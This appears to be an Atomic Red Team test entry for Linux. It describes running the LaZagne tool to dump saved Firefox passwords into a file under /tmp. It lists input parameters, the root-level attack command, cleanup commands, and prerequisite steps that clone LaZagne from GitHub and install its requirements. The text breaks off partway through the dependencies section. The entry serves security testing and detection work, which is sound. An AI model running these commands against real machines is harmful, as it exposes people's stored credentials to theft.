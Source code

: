 <br/>
<br/>

## Atomic Test #9 - LaZagne.py - Dump Credentials from Firefox Browser

Credential Dump Ubuntu 20.04.4 LTS Focal Fossa Firefox Browser, Reference https://github.com/AlessandroZ/LaZagne

**Supported Platforms:** Linux

**auto_generated_guid:** 87e88698-621b-4c45-8a89-4eaebdeaabb1

#### Inputs:

| Name            | Description                                                                         | Type   | Default Value             |
| --------------- | ----------------------------------------------------------------------------------- | ------ | ------------------------- |
| lazagne_path    | Path you put LaZagne Github with LaZagne.py                                         | string | /tmp/LaZagne/Linux        |
| specific_module | You may change the module to "all" for all password that can be found by LaZagne.py | string | browsers -firefox         |
| output_file     | This is where output for the Firefox passwords goes                                 | string | /tmp/firefox_password.txt |

#### Attack Commands: Run with `sh`! Elevation Required (e.g. root or admin)

```sh
python3 #{lazagne_path}/laZagne.py #{specific_module} >> #{output_file}
```

#### Cleanup Commands:

```sh
rm -R /tmp/LaZagne; rm -f #{output_file}
```

#### Dependencies: Run with `sh`!

##### Description: Get Lazagne from Github and install requirements

##### Check Prereq Commands:

```sh
test -f #{lazagne_path}/laZagne.py
```

##### Get Prereq Commands:

```sh
cd /tmp; git clone https://github.com/AlessandroZ/LaZagne; cd /tmp/LaZagne/; pip install -r requirements.txt
```

##### Description: Needs git, python3 and some pip stuff

##### Check Prereq Commands:
